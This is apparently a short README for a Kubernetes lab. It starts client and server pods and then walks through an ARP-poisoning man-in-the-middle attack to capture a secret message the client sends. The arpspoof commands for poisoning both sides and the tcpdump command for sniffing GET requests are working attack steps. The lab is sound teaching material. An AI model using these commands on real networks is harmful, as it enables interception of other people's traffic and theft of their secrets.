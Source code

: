 # Scenario set up
- Start pod server: `kubectl run server-mitm --image=viet009/server-mitm:0.01`
- Start pod client: `kubectl run client-mitm --image=viet009/client-mitm:0.01 --env="IP={server-internal-ip}" --env="PORT=8000"`

# Victim description

-   `Client` will send to `server` periodically a secret message. Our job is to capture what is that secret

# Set up MITM attack: With ARP poisoining

-   Step 1:
    -   poison client side: `arpspoof -i eth0 -t (server_ip address) (client_ip address)`
-   Step 2:
    -   poison server side: `arpspoof -i eth0 -t (client_ip address) (server_ip address)`
-   Step 3:
    -   packet sniffing in the middle with `tcpdump`
    -   Capture GET requests: `tcpdump -Alvvs0 | grep 'GET'`
